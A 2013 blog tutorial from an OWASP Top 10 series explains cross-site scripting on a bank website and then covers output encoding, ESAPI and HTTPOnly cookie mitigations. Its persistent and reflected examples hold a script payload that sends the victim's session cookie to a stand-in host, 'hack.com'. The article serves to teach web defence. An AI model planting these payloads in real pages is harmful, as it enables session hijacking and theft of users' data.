 ```yaml
---
authors:
- Philippe Cery
tags:
- OWASP
- Sécurité
- Web
date: 2013-10-28T08:57:07.000Z
title: "OWASP Top 10 - A3 Cross Site Scripting (XSS)"
image: 
---
```


## Description

Cross-Site Scripting is a specific consequence of an injection attack. The goal is to make a web browser execute arbitrary scripting code (Javascript, ActionScript, ActiveX…) usually to steal personal information.

## Examples

### Persistent XSS attack

The attacker’s bank website proposes a messaging service to communicate with the clerk.
 The attacker posts the following message:
```language-html
Happy New Year!
 <script>x=new Image(); x.src=’http://hack.com/ilovecookies.jsp?yummy=’+document.cookie</script>
```

Once connected on the bank’s website with its special account, the bank clerk consults its new messages. When he opens the suspicious message, he will see the “Happy New Year!” greetings. The second line of the message will not be shown but interpreted by his browser which will silently send his session ID to *hack.com*. Then the attacker will be able to hijack the clerk’s session on the bank’s website to have access to sensitive information on other clients…

### Non-persistent XSS attack

The attacker sends to the clerk an email asking him to consult its account with the following direct link to the website:
```language-html
https://www.mybank.com/details?iban=<script>x=new Image(); x.src=’http://hack.com/ilovecookies.jsp?yummy=’+document.cookie</script>
```

Once authenticated with its own account, the clerk tries to display the account page using the provided link but obviously the bank could not find the requested IBAN and displays an error page to the clerk:
```language-html
IBAN not found: <script>x=new Image(); x.src=’http://hack.com/ilovecookies.jsp?yummy=’+document.cookie</script>
```

Of course, the clerk can only see the beginning of the message “`IBAN not found: `“. The javascript snippet is interpreted by the clerk’s browser and silently send the clerk’s session ID to *hack.com*.

## Mitigations

### Protection against injection attack

If your web application is not protected against [injection](http://blog.ippon.fr/2013/10/11/owasp-top-10-a1/ "OWASP Top 10 - A1 Injection") attacks, it is definitely vulnerable to XSS attacks. When possible, validate untrusted input before usage and storage.

### Output encoding

Sometimes, it is difficult to have an exhaustive white-list of allowed characters when the input is a free text. In theses cases, it is important to canonicalize the input data before storage then encode output data so that special characters are not misinterpreted by the browser. If you don’t canonicalize the input data before storage, encoded input data will be re-encoded.
 E.g. < and > must be converted into `<` and `>` in HTML pages or the string between these 2 characters could be interpreted by the browser as an HTML tag. In the examples above, after encoding, `<script>` becomes `<script>` and won’t be interpreted as a script tag by the browser but displayed as text. Thus the suspicious javascript code won’t be executed.
 Of course, untrusted code can be inserted anywhere in the web page. [ESAPI](https://www.owasp.org/index.php/Category:OWASP_Enterprise_Security_API "ESAPI")‘s Encoder can be used to encode characters depending on where you need to insert untrusted code. Below are some examples:

```language-java
Encoder encoder = ESAPI.encoder();
String rawOutput = "<script>alert("hello");</script>";
System.out.println("Encoded for HTML : "+encoder.encodeForHTML(rawOutput));
System.out.println("Encoded for CSS : "+encoder.encodeForCSS(rawOutput));
System.out.println("Encoded for Javascript : "+encoder.encodeForJavaScript(rawOutput));
System.out.println("Encoded for URL : "+encoder.encodeForURL(rawOutput));
```

Console output:

```language-html
<em>Encoded for HTML : <script>alert("hello");</script>
Encoded for CSS : 3c script3e alert28 22 hello22 29 3b 3c 2f script3e
Encoded for Javascript : x3Cscriptx3Ealertx28x22hellox22x29x3Bx3Cx2Fscriptx3E
Encoded for URL : %3Cscript%3Ealert%28%22hello%22%29%3B%3C%2Fscript%3E</em>
```

Other open-source third-parties exist to encode text before output. Have a look on [Apache Commons-Lang3 API](http://commons.apache.org/proper/commons-lang/javadocs/api-3.1/org/apache/commons/lang3/StringEscapeUtils.html "Apache Commons-Lang3"). It is less strict on encoding but it is acceptable for a simple web application.

`System.out.println("Encoded for HTML : "+StringEscapeUtils.escapeHtml4(rawOutput));`

Console output:

`<em>Encoded for HTML : <script>alert("hello");</script></em>`

### HTTPOnly cookie flag

The examples above show teo different ways to steal a session ID. As discussed in the previous article, if an attacker steals the session ID of an user authenticated on a website, he can impersonate the victim on that website.

Although only the web browser needs to know the session ID, anyone (including a script) could read the value. That’s why Microsoft IE6 developers decided to implement the HTTPOnly flag. When this flag is set (and if the browser supports it), the XSS attack above won’t be able to steal the session ID.

If your application is Servlet 3.0 compliant, you can configure it by adding the following in your `web.xml`:
```language-xml
<session-config>
  <cookie-config>
    <http-only>true</http-only>
  </cookie-config>
</session-config>
```

Otherwise, you will need to configure your server. For example, if you use Apache Tomcat 6, you can set the HTTPOnly flag on cookies by adding the attribute `useHttpOnly="true"` in your `context.xml`:
```language-xml
<Context ... <em>useHttpOnly="true"</em>>
</Context>```

To see all articles related to OWASP Top 10, follow the tag [#owasp](http://blog.ippon.fr/tag/owasp/ "OWASP Top 10")
